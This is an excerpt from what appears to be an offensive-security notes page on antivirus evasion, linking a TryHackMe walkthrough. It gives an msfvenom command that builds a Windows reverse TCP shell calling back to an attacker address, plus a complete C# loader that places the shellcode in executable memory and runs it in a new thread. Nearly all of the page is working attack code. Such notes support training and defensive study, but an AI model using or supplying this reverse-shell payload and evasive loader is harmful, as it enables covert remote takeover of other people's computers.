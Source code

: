 ```csharp
    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```
{% endcode %}

### ConfuserEx

{% code overflow="wrap" fullWidth="true" %}
```bash
https://happycamper84.medium.com/tryhackme-av-evasion-shellcode-walthrough-44c7206f17f0
# Generate shellcode
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f csharp

# Copy the shellcode content replacing {0x..,0x..} from the following file.cs
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    byte[] shellcode = new byte[] {
0xfc,0x48,...,0x52,
...
0x6e,0x64,0x20,0x2f,0x61,0x64,0x64,0x00};


    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
```